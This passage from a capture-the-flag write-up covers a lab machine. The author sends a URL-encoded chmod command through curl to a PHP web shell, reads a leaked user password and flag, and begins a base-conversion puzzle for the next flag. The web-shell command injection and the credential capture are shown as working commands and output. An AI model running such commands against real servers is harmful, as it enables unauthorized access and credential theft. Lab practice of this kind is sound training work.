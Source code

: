We use execute the following command means everyone can read
```
chmod a+r readme9213.txt
```
Because we communicate with webserver, so we need to URL encode the command:
```
chmod%20a%2Br%20readme9213.txt
```
Then send the POST request and read the `readme9213.txt`!
```bash
curl localhost/shellcmsdashboard/aabbzzee.php --data "comm=chmod%20a%2Br%20readme9213.txt"

seis@svos:/var/www/html/shellcmsdashboard$ ls -la
total 24
drwxrwxrwx 2 root     root 4096 Oct 18 15:02 .
drwxr-xr-x 5 root     root 4096 Oct  8 17:51 ..
-rwxrwxrwx 1 root     root 1459 Oct  1 17:57 aabbzzee.php
-rwxrwxrwx 1 root     root 1546 Oct 18 15:02 index.php
-rwxrwxrwx 1 www-data root   48 Oct  8 17:54 readme9213.txt
-rwxrwxrwx 1 root     root   58 Oct  1 17:37 robots.txt

seis@svos:/var/www/html/shellcmsdashboard$ cat readme9213.txt 
password for the seventh user is 6u1l3rm0p3n473
```
Yeah! We got the sieve's password!
```
siete:6u1l3rm0p3n473
```
FLAG:
```
flag7{d5c26a}
```

## OCHO flag
There are 5 different files in its home directory:
```bash
siete@svos:~$ ls
flag7.txt  hint.txt  key.txt  message.txt  mighthelp.go  password.zip
```
Each file contains:
```
# hint.txt
Base 10 and Base 256 result in Base 256!

# key.txt
x

# message.txt
[11 29 27 25 10 21 1 0 23 10 17 12 13 8]

# mighthelp.go
package main import(
        "fmt" ) func main() {
        var chars =[]byte{}
        str1 := string(chars)
        fmt.println(str1)
}
```
I assume "Base 256" is ASCII, and "Base 10" is message.txt
